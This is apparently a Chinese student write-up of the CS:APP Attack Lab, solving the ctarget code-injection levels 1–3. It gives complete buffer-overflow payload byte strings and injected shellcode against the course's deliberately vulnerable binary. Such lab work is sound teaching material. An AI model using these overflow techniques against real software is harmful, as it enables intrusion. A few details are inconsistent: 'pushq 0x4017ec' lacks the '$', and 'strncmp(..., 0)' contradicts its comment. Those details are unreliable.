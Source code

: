 # Attack Lab

加深程序控制流的理解

## Using Hex2Raw

官方提供的小工具， 指导书后面的附录A里讲的很详细

作用是把16进制格式的“string”转成raw string. 也就是说把我们用"一个字节表示两个十六进制数"的形式表达的这么一块空间强行变成字符串形式以便于给后面的攻击程序做输入.

现在有ans.txt

```
30 31 32 33 34 35 00
./hex2raw < ans.txt
012345
```

## 得到指令的字节编码

比如我写一个`.s`文件

```
pushq   $0xabcdef
addq    $17,%rax
movl    %eax,%edx 
```

![img](https://mf3qv90vh2.feishu.cn/space/api/box/stream/download/asynccode/?code=YjE2ZmU5NzAwMGY0NDI5ZGY2YWJjZWJhNWMzMDcxNmNfSXhBY3lUbmc0NzRXM1JzVlhsN3B0VExaSFZTdDNwRE1fVG9rZW46Ym94Y25oMFhFTnZNajRuTDBzQzhaRUVjVHlkXzE2MzI0MDYwOTY6MTYzMjQwOTY5Nl9WNA)

在`test.d`里就能看到指令的字节集编码了

```
test.o:     file format pe-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:        68 ef cd ab 00               pushq  $0xabcdef
   5:        48 83 c0 11                  add    $0x11,%rax
   9:        89 c2                        mov    %eax,%edx
   b:        90                           nop
   c:        90                           nop
   d:        90                           nop
   e:        90                           nop
   f:        90                           nop
```

## Code Injection Attacks

### Level 1

直接告诉你调用过程了

```
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
touch1`的地址: `00000000004017c0
```

`getbuf`的过程

```
00000000004017a8 <getbuf>:
  4017a8:   48 83 ec 28             sub    $0x28,%rsp
  4017ac:   48 89 e7                mov    %rsp,%rdi
  4017af:   e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:   b8 01 00 00 00          mov    $0x1,%eax
  4017b9:   48 83 c4 28             add    $0x28,%rsp
  4017bd:   c3                      retq   
  4017be:   90                      nop
  4017bf:   90                      nop
```

可以看到栈上是分配了0x28(即40字节)的空间, 我们只要在0x28后面的字符串中填入`touch1`的地址就行了. 注意x86是小段模式, 在内存中的分布情况要倒过来.最后要写入`touch1`的地址0x4017c0.

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00
```

注意x86是小端存储, 就是说对于一个数字比如0x12345678在内存中的存储方式是

```
78 56 34 12
```

![img](https://mf3qv90vh2.feishu.cn/space/api/box/stream/download/asynccode/?code=ZTJjODY2NzY4ZjE4MDkxZWU5YmMyMmY2ZDZkMTVkMDJfMHp6YWlFR1Z6c3RTaUhsVjV5bkZ6YmtsOXhGajlQVUtfVG9rZW46Ym94Y25ubWVQUnRIM2VCeTJOd0o2ZFNrb3FkXzE2MzI0MDYwOTY6MTYzMjQwOTY5Nl9WNA)

### Level 2

让我们执行`touch2`

```
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

问题在于`touch2`需要我们传入给定的cookie值才会正常运行, 所以我们需要想办法把函数参数传递进去. 解决方法是injected code, 把`rdi`设置成cookie值然后通过`ret`把控制权交给`touch2`.

写我们的汇编代码(`touch2`的地址为0x4017ec)

```
movq $0x59b997fa,%rdi
pushq 0x4017ec
ret
```

得到`48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3`. 那么如何让这段代码执行ne,简单的方式就是让`getbuf`执行完之后来到这些代码所在的位置.

查看栈的位置

```
(gdb) info r rsp
rsp            0x5561dc78       0x5561dc78
```

而`touch2`的地址为0x4017ec, 得到注入的内容

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

![img](https://mf3qv90vh2.feishu.cn/space/api/box/stream/download/asynccode/?code=NDY1MmE1MmE3MTRhOWUzMGFmMDY1YWZlZTllMTM2ZjJfNmJ4THd0MFlCMVJObzBGYkw1TXF2U05STFFrWmhtUEVfVG9rZW46Ym94Y25HeEl1Q2ZxNUF6dTRNQW80S3pMSnpkXzE2MzI0MDYwOTY6MTYzMjQwOTY5Nl9WNA)

### Level 3

`ctarget`中有`hexmatch`和`touch3`(0x4018fa)

```
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 0) == 0; // 比较前9个字符
}

void touch3(char *sval)
 {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) { 
         printf("Touch3!: You called touch3(\"%s\")\n", sval);
         validate(3);
    } else {
         printf("Misfire: You called touch3(\"%s\")\n", sval);
         fail(3);
     }
    exit(0);
 }
```

显然是要求`touch3`的参数为字符串类型的`cookie`, 而且`hexmatch`里面的`s`的内存空间是随机的, 大概猜不到在哪里.

官方提示:

- 要在注入的string中包括cookie字符串
- 注入的代码要把`rdi`设置为cookie字符串的地址
- 调用hexmatch和strncmp时会覆盖`getbuf`分配的空间, 所以要小心

因此试图把string放在`test`的栈帧空间上

![img](https://mf3qv90vh2.feishu.cn/space/api/box/stream/download/asynccode/?code=MzhlYjI1OGIxZDY3MjY4MTM2OTM5ZTFmNzEyMjJlYzlfOVNOZFVWRlBYQ3ZWaDlxT2ljTTJFNVNqWjdnaHFVQzhfVG9rZW46Ym94Y25OdkY3SFJwYjJwWTljeHJuM2hha3NlXzE2MzI0MDYwOTY6MTYzMjQwOTY5Nl9WNA)

那么我们把对应的`string`放在0x5561dca8上

对应的汇编

```
movq $0x5561dca8,%rdi
pushq $0x4018fa
ret
```

得到的指令序列是`48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3`

构造攻击代码(cookie的ascii码是`35 39 62 39 39 37 66 61`

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

![img](https://mf3qv90vh2.feishu.cn/space/api/box/stream/download/asynccode/?code=OTZhMWIzNDdkNDBkMzM4M2RkNGE1ZDgyNzlmODA0MTlfWTVHb0pPMXlvZ24wdWdIVUwwS2h2QllNbXpDOUh6ZFZfVG9rZW46Ym94Y25XekU4VmdDdEZXVThpNVE4bDBMcVFmXzE2MzI0MDYwOTY6MTYzMjQwOTY5Nl9WNA)